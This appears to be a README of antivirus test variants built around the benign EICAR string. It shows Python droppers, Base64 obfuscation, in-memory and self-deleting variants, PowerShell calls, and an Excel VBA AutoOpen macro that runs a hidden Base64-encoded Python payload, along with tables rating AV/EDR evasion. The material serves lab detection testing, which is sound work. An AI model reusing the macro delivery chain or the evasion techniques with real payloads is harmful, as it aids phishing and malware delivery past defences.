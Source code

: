 Breakdown of the EICAR Test Variants


🧱 1. Basic Python Dropper
``` python
EICAR_STRING = "X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*"
with open("eicar_basic_dropper.txt", "w") as f:
    f.write(EICAR_STRING)
```

- What it does: Writes the known EICAR test string to disk (eicar.com).
- Purpose: Static AV signature test.
- Detection chance: 100% if AV is active.

---

🧅 2. Obfuscated Dropper
``` python
encoded = "Base64_EICAR_String"
decoded = base64.b64decode(encoded).decode('ascii')
with open("eicar_obf.com", "w") as f:
    f.write(decoded)
```
- What it does: Hides the EICAR string in Base64, decodes it at runtime.
- Purpose: Simulates basic payload encoding like malware often uses.
- Detection chance: Lower unless AV/EDR inspects script behavior.

---

1_In-Memory_EICAR.py
``` python
#!/usr/bin/env python3

# In-memory EICAR simulation (no shell, no disk)
# Prints the EICAR test string to stdout, without writing to disk.

from io import BytesIO

# EICAR string
eicar = b"X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*"

# Write to an in-memory buffer
mem_buffer = BytesIO()
mem_buffer.write(eicar)

# Seek to beginning if needed
mem_buffer.seek(0)

# Read it back
data = mem_buffer.read()
print("In-memory EICAR data loaded:", data.decode())

```
- Does not write to disk
- Does not call subprocesses
- Only manipulates EICAR entirely in memory
- Final result is printed to stdout

✅ Will This Trigger Antivirus?
| Detection Mechanism | Will It Trigger? | Explanation |
|---------------------|------------------|-------------|
| File-based scanning | ❌ No | Nothing is written to disk, so classic AV scanners don’t see a file to scan. |
| Memory scanning |	⚠️ Rarely | Only some advanced AV/EDR tools scan Python process memory for known signatures like EICAR. |
| String detection | ❌ No	| The string is printed to stdout, which most AVs do not monitor in real-time. |
| Behavioral detection |⚠️ Very unlikely | Only the most aggressive EDR solutions might flag the presence of the EICAR string in memory or logs. |

📈 How might it trigger AV?
While most off-the-shelf AVs will ignore this script, a few scenarios could trigger detection in enterprise environments:

🟡 Possible Triggers:
| Scenario | Risk | Explanation |
|----------|------|-------------|
| Advanced EDR memory scan | Medium–Low | Some EDRs (like CrowdStrike, Defender ATP, etc.) inspect user-space memory and command-line args. |
| Centralized log monitoring | Low | If stdout is logged to SIEMs and string matching is done post-log, it might be flagged. |
| Correlated behavior | Very Low | If this is run alongside other suspicious behavior, EDR may correlate and raise suspicion. |

```markdown

🛡️ AV Detection Likelihood by Tool Type
Tool Type	Detection Likelihood	Notes
Free AV (Defender, Avast)	❌ Very unlikely	Will not detect this unless the string is written to disk.
Paid AV Suites	❌ Unlikely	May log the string in telemetry but won’t trigger alerts.
EDR/XDR (CrowdStrike, SentinelOne, Defender for Endpoint)	⚠️ Low–Medium	Detection is possible via memory inspection, telemetry analysis, or behavior modeling.
Sandbox AV	⚠️ Low	May log string use, but without a file drop or shell activity, usually not flagged.

🔐 Security Summary
Risk Category	Status
Malicious behavior	❌ None (no system changes, no persistence, no network)
Malicious payload	✅ EICAR (benign but signature known)
Evasion technique	✅ Yes (runs purely in-memory)
Detection likelihood	⚠️ Low (unless monitored memory or stdout logging)

✅ TL;DR – Will It Be Detected?
✅/❌	Summary
❌	Most antivirus solutions will not detect this script.
⚠️	Enterprise EDRs might detect it if they scan memory or correlate stdout logs.
✅	Writing the EICAR string to a file or subprocess is almost guaranteed to trigger AV.
```





🧠 3. In-Memory Execution
A. subprocess with echo
``` python
cmd = f'echo {eicar}'
subprocess.run(cmd, shell=True)
```
- What it does: Uses system shell to echo the EICAR string.
- Purpose: Mimics droppers that execute payloads in memory or with LOLBins (Living Off the Land Binaries).
- Detection chance: Medium to high, depending on AV script monitoring.

 ---

B. tempfile with auto-deletion 
``` python
with tempfile.NamedTemporaryFile(...) as tmp:
    tmp.write(eicar.encode())
os.remove(tmp.name)
```
- What it does: Creates a temp file, writes the string, deletes it quickly.
- Purpose: Simulates malware that cleans up after itself.
- Detection chance: Depends on AV reaction time.

---

C. PowerShell Injection
``` python
powershell_cmd = '$e="..."; [System.Text.Encoding]::ASCII.GetBytes($e) | Out-Null'
subprocess.run(["powershell", "-Command", powershell_cmd])
```
- What it does: Runs PowerShell to generate EICAR in memory.
- Purpose: Simulates real-world fileless malware or script-based attacks.
- Detection chance: Very high for good EDRs.

---

🪤 1. Excel VBA Macro → Python Dropper
- This simulates phishing or initial access where:
- A malicious Excel document has a macro (VBA script).
- The macro launches Python to execute a payload (e.g., an EICAR dropper).
``` vba
Sub AutoOpen()
    Dim pyCommand As String
    pyCommand = "cmd.exe /c python -c ""import base64;exec(base64.b64decode('aW1wb3J0IHdpcnRlOyB3aXJ0ZSgiWDVPKVB...==' ))"""
    
    Shell pyCommand, vbHide
End Sub
```
- What it does:
    - AutoOpen runs when the document is opened.
    - It constructs a command to run python -c <payload>.
    - The Python payload is Base64-encoded for obfuscation.
- What the Python does: Writes or generates the EICAR string.

---

📦 2. Embedded Python Payload
Here’s what the payload might do before it’s base64-encoded:
``` python
import base64

eicar = base64.b64decode("WDVPKVB...").decode()
with open("eicar.com", "w") as f:
    f.write(eicar)
```
Then you Base64-encode this whole Python snippet and embed it into the VBA macro.
You can encode it like this from your terminal:
``` bash
echo "import base64; eicar=base64.b64decode('...'); open('eicar.com','w').write(eicar)" | base64
```
Use the output in the VBA code.

---

🧠 Why This Is Useful (and Dangerous)
Feature	                        Use Case
Mimics real malware delivery	Macros calling external scripts is a classic attack chain.
Bypasses static detection	    If AV only scans static VBA, this may get missed.
Tests macro policies	        Useful for seeing if macro-blocking policies (e.g., in MS Defender) work.
Simulates phishing vectors	    This mimics malware in malicious attachments.

🛑 Precautions
- ⚠️ Never test this outside of isolated, controlled lab environments.
- ⚠️ Excel must have macros enabled — modern Office versions block unsigned macros by default.
- ✅ Use AppLocker, WDAC, and macro policies in enterprise environments to block this vector.




